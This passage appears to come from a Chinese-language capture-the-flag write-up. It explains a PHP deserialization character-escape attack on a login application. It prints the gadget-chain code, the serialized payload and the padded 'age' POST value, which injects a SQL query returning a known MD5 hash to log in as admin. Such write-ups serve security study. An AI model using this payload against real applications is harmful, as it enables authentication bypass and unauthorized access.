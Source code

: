 ```php
        $this->name = "admin";
        $this->test = new UpdateHelper();
    }
}

$x = new Info();
$x->CtrlCase->test->sql = new User();
echo serialize($x);
```

得到的payload:

> O:4:"Info":3:{s:3:"age";s:1:"1";s:8:"nickname";s:1:"2";s:8:"CtrlCase";O:6:"dbCtrl":9:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:4:"root";s:6:"dbpass";s:4:"root";s:8:"database";s:4:"test";s:4:"name";s:5:"admin";s:8:"password";s:1:"1";s:6:"mysqli";N;s:5:"token";N;s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":3:{s:2:"id";s:1:"1";s:3:"age";s:72:"select "1","c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";s:1:"1";s:8:"nickname";s:1:"2";s:8:"CtrlCase";O:6:"dbCtrl":9:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:4:"root";s:6:"dbpass";s:4:"root";s:8:"database";s:4:"test";s:4:"name";s:5:"admin";s:8:"password";s:1:"1";s:6:"mysqli";N;s:5:"token";N;s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";N;}}}}}}}

由于lib.php中有:

```php
public function update()
{
	$Info = unserialize($this->getNewinfo());
	$age = $Info->age;
	$nickname = $Info->nickname;
	$updateAction = new UpdateHelper($_SESSION['id'], $Info, "update user SET age=$age,nickname=$nickname where id=" . $_SESSION['id']);
        //这个功能还没有写完 先占坑
}

public function getNewInfo()
{
	$age = $_POST['age'];
	$nickname = $_POST['nickname'];
	return safe(serialize(new Info($age, $nickname)));
}
```

所以我们需要通过反序列化字符逃逸绕过getNewInfo方法里的serizlize()。

> age=1'''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''";s:8:"nickname";s:1:"2";s:8:"CtrlCase";O:6:"dbCtrl":9:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:4:"root";s:6:"dbpass";s:4:"root";s:8:"database";s:4:"test";s:4:"name";s:5:"admin";s:8:"password";s:1:"1";s:6:"mysqli";N;s:5:"token";N;s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":3:{s:2:"id";s:1:"1";s:3:"age";s:72:"select "1","c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";s:1:"1";s:8:"nickname";s:1:"2";s:8:"CtrlCase";O:6:"dbCtrl":9:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:4:"root";s:6:"dbpass";s:4:"root";s:8:"database";s:4:"test";s:4:"name";s:5:"admin";s:8:"password";s:1:"1";s:6:"mysqli";N;s:5:"token";N;s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";N;}}}}}}}
